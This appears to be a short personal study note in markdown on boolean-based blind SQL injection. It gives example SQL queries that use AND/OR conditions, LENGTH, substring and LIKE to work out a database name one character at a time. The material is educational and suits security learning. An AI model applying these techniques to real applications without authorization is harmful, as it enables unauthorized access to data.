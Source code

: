 ```yaml
---
tags:
- security
- sqli
- web
title: BOOLEAN based (Blind) Injection
---
```


If the 1st part of the where clause is correct we can use the AND operator to get result

````sql
SELECT * 
FROM users 
WHERE id=1 AND database()="sbva";
````

If the 1st part of the where clause is wrong we can use the OR operator to get result

````sql
SELECT * 
FROM users 
WHERE id=2 OR database()="sbva";
````

#### Finding Database Name

1. <u>Find Length of Name</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR LENGTH(database())="1";
````

2. <u>Brute Force the Characters</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR substring(database(), 1, 1)="s";

SELECT * 
FROM users 
WHERE id=2 or substring(database(), 2, 1)="s";
````

3. <u>Try to Find Matching Pattern</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR database() LIKE "%s%";
````